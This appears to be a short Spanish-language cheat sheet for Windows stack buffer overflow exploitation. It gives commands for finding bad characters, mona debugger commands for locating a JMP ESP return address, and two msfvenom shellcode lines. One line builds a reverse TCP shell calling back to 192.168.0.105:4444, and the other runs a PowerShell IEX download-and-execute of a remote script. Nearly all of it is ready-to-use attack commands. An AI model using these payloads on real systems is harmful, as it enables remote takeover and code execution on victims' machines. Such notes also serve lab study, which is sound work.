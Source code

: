
# Generar cadena bytearray
```pip install badchars```
```badchars -f python```

## MONA
#### Configurar carpeta de trabajo
```!mona config -set workingfolder C:\Users\win7bits\Desktop\%p```
#### Generar badchars
```!mona bytearray -b "\x00"```   
```!mona bytearray -b "\x00\x07"```
#### Comparar haciendo referencia al bytearray que generó y la dirección a la que apunta ESP
```!mona compare -f C:\mona\appname\bytearray.bin -a <address>```
#### Encontrar el punto de salto
```!mona jmp -r esp -cpb \x07\x2e\xa0\x00"```   
```!mona jmp -r esp -cpb "\x00"```

## SHELLCODE
#### cmd
```msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```
#### Powershell
```msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c```

#### Idioma teclado
ES Spanish (United States)
